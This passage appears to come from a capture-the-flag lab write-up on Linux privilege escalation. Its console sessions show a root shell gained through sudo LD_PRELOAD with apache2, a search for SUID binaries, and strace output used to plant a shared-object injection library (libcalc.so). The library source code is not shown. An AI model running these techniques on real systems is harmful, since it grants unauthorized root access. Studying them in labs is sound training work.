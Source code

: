 ```console
TCM@debian:~$ gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
TCM@debian:~$ ls /tmp
backup.tar.gz  useless  x.so
TCM@debian:~$ sudo LD_PRELOAD=/tmp/x.so apache2
root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```
{: .nolineno }

No Answer.

## TASK 11 : Privilege Escalation - SUID (Shared Object Injection)
### Click 'Completed' once you have successfully elevated the machine 

```console
TCM@debian:~/.config$  find / -type f -perm -04000 -ls 2>/dev/null
809081   40 -rwsr-xr-x   1 root     root        37552 Feb 15  2011 /usr/bin/chsh
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudo
810173   36 -rwsr-xr-x   1 root     root        32808 Feb 15  2011 /usr/bin/newgrp
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudoedit
809080   44 -rwsr-xr-x   1 root     root        43280 Jun 18  2020 /usr/bin/passwd
809078   64 -rwsr-xr-x   1 root     root        60208 Feb 15  2011 /usr/bin/gpasswd
809077   40 -rwsr-xr-x   1 root     root        39856 Feb 15  2011 /usr/bin/chfn
816078   12 -rwsr-sr-x   1 root     staff        9861 May 14  2017 /usr/local/bin/suid-so
816762    8 -rwsr-sr-x   1 root     staff        6883 May 14  2017 /usr/local/bin/suid-env
816764    8 -rwsr-sr-x   1 root     staff        6899 May 14  2017 /usr/local/bin/suid-env2
815723  948 -rwsr-xr-x   1 root     root       963691 May 13  2017 /usr/sbin/exim-4.84-3
832517    8 -rwsr-xr-x   1 root     root         6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
832743  212 -rwsr-xr-x   1 root     root       212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
812623   12 -rwsr-xr-x   1 root     root        10592 Feb 15  2016 /usr/lib/pt_chown
473324   36 -rwsr-xr-x   1 root     root        36640 Oct 14  2010 /bin/ping6
473323   36 -rwsr-xr-x   1 root     root        34248 Oct 14  2010 /bin/ping
473292   84 -rwsr-xr-x   1 root     root        78616 Jan 25  2011 /bin/mount
473312   36 -rwsr-xr-x   1 root     root        34024 Feb 15  2011 /bin/su
473290   60 -rwsr-xr-x   1 root     root        53648 Jan 25  2011 /bin/umount
1158723  912 -rwsr-sr-x   1 root     staff      926536 Apr 18 08:44 /tmp/bash
465223  100 -rwsr-xr-x   1 root     root        94992 Dec 13  2014 /sbin/mount.nfs

TCM@debian:~$ strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
access("/etc/suid-debug", F_OK) = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK) = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK) = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK) = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK) = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK) = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK) = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK) = -1 ENOENT (No such file or directory)
open("/lib/libc.so.6", O_RDONLY) = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
TCM@debian:~$ mkdir /home/user/.config
TCM@debian:~$ cd /home/user/.config/
TCM@debian:~/.config$ nano libcalc.c
TCM@debian:~/.config$ gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
TCM@debian:~/.config$ ls
```